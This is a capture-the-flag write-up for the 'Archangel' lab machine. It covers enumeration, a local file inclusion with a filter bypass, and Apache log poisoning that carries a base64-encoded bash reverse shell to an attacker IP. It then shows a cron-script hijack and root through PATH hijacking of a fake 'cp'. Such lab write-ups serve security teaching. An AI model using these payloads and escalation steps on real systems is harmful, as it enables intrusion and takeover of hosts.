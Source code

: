 # Archangel

## Boot2root, Web exploitation, Privilege escalation, LFI
```
Machine's IP: 10.10.185.229
``` 

**NMAP**

Firstly, once the machine is up we can begin with an active enumeration using nmap
```bash
# Nmap 7.95 scan initiated Fri Oct 17 04:19:27 2025 as: /usr/lib/nmap/nmap --privileged -A -oN nmap.txt -T4 -Pn -p- 10.10.185.229
Nmap scan report for 10.10.185.229
Host is up (0.042s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   43.35 ms 10.9.0.1
2   42.64 ms 10.10.185.229

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 17 04:20:13 2025 -- 1 IP address (1 host up) scanned in 46.13 seconds
```
We can notice 2 services:
- Openssh 7.6p1 is too recent to be vulnerable
- Appache httpd 2.4.29 same as ssh

We will need credentials to use ssh so we will look at the web service

**GOBUSTER**

We will try to find any hidden directories first as the webpage is full of empty links unexploitable
```bash
gobuster dir -u http://10.10.185.229/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t40
```
-> nothing except a rickroll... :)

**HOSTNAME**

We can find in the webpage an email that has as hostname *mafialive.thm*
We can now edit our /etc/hosts such as
```
10.10.185.229   mafialive.com
```

**SECOND WEBPAGE**

Now we can access to a dev webpage where i first want to start a gobuster
```bash
gobuster dir -u http://mafialive.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t40
```
No interesting directories sadly...
I will try the same but with extensions appending
```bash
gobuster dir -u http://mafialive.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html -t40
```
We now find 2 pages, *index.html* which is the default webpage and *test.php*
Accessing to text.php let us click on a button that displays some text

The most interesting part is that the url changes to *http://mafialive.thm/test.php?view=/var/www/html/development_testing/(file)*

That makes us think about an LFI (local file inclusion)

Let's try some LFIs:
```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/../../../../etc/passwd
```
- path traversal is blocked
- url encoding is blocked
- utf-8 encoding is blocked too

Let's just read the php file to see which LFI we can do:
```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```
Then just base64 decode it and we can read it :)

The code seems to be checking if there are no "../" and if there is "/var/www/html/development_testing/" in the link so we can do our path traversal from development_testing with ..// as linux handle ../ and ..// the same way

**RCE**

Under Apache we can do some Apache log poisoning to get a reverse shell, let's first read the access.log with
```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log
```
(I had some issues being unable to display it but rebooting the machine worked)

Now let's inject a payload in the user agent with a bash reverse shell encoded in b64:
```bash
curl http://mafialive.thm/ -A "<?php system('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuNC4xNzYvOTAwNSAwPiYx | base64 -d | bash');?>"
```
```bash
girsh listen -p 9005
```
I use girsh to get a stabilized reverse shell immediatly

**REVERSE SHELL ACQUIERED**

we are www-data but there is a crontab running each minutes that exec /opt/helloworld.sh as archangel (user) by having a look to **crontab -l**

We can edit it as we have the permissions so let's give us a reverse shell as archangel by replacing the whole file with a bash reverse shell

**PRIVESC**

THEN we can access to /home/archangel/secret now which was blocked before

We find a binary called *./backup* so we will use strings to check what the bin is doing

- the bin sets its perms to root
- use the "cp" command to copy files from a directory that doesnt even exist

We'll create a "cp" bin in /tmp that just do 
```bash
#!/bin/bash
bash -p
```

The file backup will execute our file as root, now we now need to polute the path
```bash
export PATH=/tmp:$PATH
```
We are putting our cp file before the /bin folder so the backup bin will execute our bin as root 

Now we can do 
```bash
./backup 
```
Et voila

We are root

Redacted by Lucas Bouet